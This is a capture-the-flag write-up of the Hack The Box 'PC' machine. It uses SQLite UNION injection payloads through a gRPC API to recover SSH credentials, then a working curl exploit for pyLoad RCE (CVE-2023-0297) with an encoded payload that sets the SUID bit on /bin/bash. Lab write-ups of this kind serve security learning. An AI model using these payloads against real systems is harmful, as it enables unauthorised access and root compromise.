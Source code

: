 ```yaml
---
title: "HackTheBox - PC"
date: 2023-10-07T10:18:48-05:00
tags: ["gRPC","Postman","SQLite","SQL Injection","pyLoad","CSRF"]
description: "PC is an easy difficulty box with only an exposed gRPC API. After finding a way to interact with the service, we can find a very basic SQL injection vulnerability that allows us to leak login credentials. Once logged in via SSH, we find an internal port running the web application pyLoad. The pyLoad version is vulnerable to unauthenticated RCE, which we can use to execute actions as root."
image: "PC.png"
categories: ["Hack The Box"]
---
```

## Enumeration
Initial nmap:
```
Nmap scan report for 10.10.11.214
Host is up (0.047s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?
<...SNIP...>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.03 seconds
```
There is very little information right out the gate, only a port that nmap fails to identify. However, quick google searching shows that this port is used in [gRPC API](https://xrpl.org/configure-grpc.html). Interacting with it requires a specific protocol, so we need to use a tailored program.
While I initially started enumeration with grpc_cli and [this resource](https://medium.com/@at_ishikawa/use-grpc-cli-to-request-a-grpc-server-37219b33c94b), I had a lot of trouble passing a login token and switched to [Postman API](https://www.postman.com/). As such, I will cover only using Postman from the beginning.
### Interacting with gRPC via Postman
To use, simply extract the tarball and run `Postman` binary:
```
┌──(kali㉿kali)-[~/Documents/pc]
└─$ tar -xvf postman-linux-x64.tar.gz 
Postman/
Postman/app/
Postman/app/icons/
<...SNIP...>
Postman/app/locales/ru.pak
Postman/Postman
┌──(kali㉿kali)-[~/Documents/pc]
└─$ cd Postman 

┌──(kali㉿kali)-[~/Documents/pc/Postman]
└─$ ls
app  Postman

┌──(kali㉿kali)-[~/Documents/pc/Postman]
└─$ ./Postman               
```
The GUI will open up, and we can create an account or skip for now:
![Skipping Postman Registration](Images/PostLaunch.png)
We can set up our request first by selecting gRPC:
![Selecting gRPC request type](Images/setgrpc.png)
Now when we supply the URL, API methods will be loaded automatically thanks to server reflection query:
![Viewing SimpleApp's functions](Images/servicereflection.png)
First, we can try to register a user. Once again, the query is made easy with Postman's "use example message" feature. It will create for us a structured JSON message with all necessary parameters. For my account, I edited the example to have a username/password of `asdf`.
![Registering asdf](Images/register.png)
Next, we can log in. The server responds with giving us an id number. Notice also, the Trailers tab. This will contain our login token, which we must supply for logged-in activities.
![Logging in as asdf](Images/login1.png)
Selecting the Trailers tab we can view:
![Viewing login token](Images/login2.png)
To use this token, we can go to the Metadata tab, and add the key as 'token' and the value the copied value from Trailers, omitting the b''.
![Adding login token to Metadata](Images/login3.png)
Finally, we can use the getInfo function. "Use Example Message" will again auto-suggest a valid JSON request, that we can use to supply our own id value:
![Checking our number](Images/getinfo1.png)
### SQL Injection in getInfo function
After trying several things, we might learn that this API is vulnerable to SQL injection. In the below example, I use UNION injection to insert the number '1' in the response:
![UNION SELECT 1-- -](Images/union1.png)
First, we can determine the database type by enumerating versions. This way, I find that the service is using sqlite:
![UNION SELECT sqlite_version();-- -](Images/union2.png)
Using a query from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md), I am able to dump databases. We are likely already seeing `messages`, and `accounts` will have interesting information.
![UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -](Images/union3.png)
Next, enumerating the columns in table `accounts`:
![UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='accounts'-- -](Images/union4.png)
Seeing `\n\t` simply refers to a newline, followed by tab indentation. There are 2 column entries, `username` and `password`. First, finding `password`:
![UNION SELECT password FROM accounts-- -](Images/union5.png)
Now with a password, we can find a matching username:
![UNION SELECT username FROM accounts-- -](Images/union6.png)
Although we have a username, this does not really seem like a password that a user 'admin' would have. With my current injection, I am just retrieving the first entry in the `username` field. However, we can be extra sure to match the username & password by using WHERE:
![UNION SELECT username FROM accounts WHERE password='HereIsYourPassword1431'-- -](Images/union7.png)
Finally, we have a credential pair of `sau:HereIsYourPassWord1431`. Fortunately, this is enough to gain entry into the system. We are able to use ssh:
```bash
┌──(kali㉿kali)-[~/Documents/Academy/sysmon]
└─$ ssh sau@10.10.11.214      
<...SNIP..>
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
```
## Privilege Escalation
### Internal web server pyLoad
Enumerating open ports, we find an internal port not available to us earlier:
```bash
sau@pc:~$ netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```
Port 8000 is common for web applications. We can do a very fast and easy check with a `curl` request:
```bash
sau@pc:~$ curl localhost:8000
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=http%3A%2F%2Flocalhost%3A8000%2F">/login?next=http%3A%2F%2Flocalhost%3A8000%2F</a>. If not, click the link.
```
There is a webpage here, and we can see already that there is login involved. In order to get a better view, we can utilize ssh port forwarding:
```
$ ssh -L 8000:localhost:8000 sau@10.10.11.214
```
Now when we visit `localhost:8000` in our browser, we can see the web login page:
![](Images/20230520223533.png)
A few basic credential attempts did not work. 
### RCE as root from pyLoad vulnerability (CVE-2023-0297)
Searching a little more, I find [this report on unauthenticated RCE in pyLoad](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/). Although I wasn't finding an easy way to see pyLoad's version number, the exploit does not seem volitile, and so I gave it a shot. Note that the payload has been altered to be `pyimport os;os.system("chmod +s /bin/bash")`, which is different from the article.
```bash
curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function%20f2(){};&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```
Executing the command as user `sau`:
```bash
sau@pc:/opt/app$ curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function%20f2(){};&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Thu, 05 Oct 2023 01:35:19 GMT
Server: Cheroot/8.6.0

Could not decrypt
sau@pc:/opt/app$ bash -p
bash-5.0# whoami
root
```
Looks like pyLoad is vulnerable, and we are now root!
## Reflection
I found this box to be simple and clean, without much distractions. Interacting with gRPC was the biggest challenge, and I still find it annoying that using grpc-cli was so problematic. However, once the worst is passed, exploiting the vulnerabilities was quite stress-free.
